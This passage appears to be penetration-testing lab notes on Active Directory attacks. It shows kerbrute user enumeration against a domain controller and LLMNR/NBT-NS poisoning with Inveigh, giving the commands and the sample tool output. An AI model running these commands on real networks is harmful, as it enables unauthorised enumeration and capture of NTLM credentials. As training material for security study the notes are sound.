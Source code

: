 ```
kerbrute_windows_amd64.exe userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
# d: domain
# --dc: domain controller
# -o: output file
```


#### Credentials 

##### LLMNR/NBT-NS Poisoning with Inveigh

[See Inveigh](inveigh.md).

LLMNR & NBT-NS poisoning is possible from a Windows host as well.  Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

**Powershell version**: The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version (in the belowed section).

```
# Install the module
Import-Module .\Inveigh.ps1

# List parameters
(Get-Command Invoke-Inveigh).Parameters


# Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


**C#  version**:  Before we can use the C# version of the tool, we have to compile the executable. After that we can run:

```powershell
.\Inveigh.exe
```


Results:

```powershell
[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
```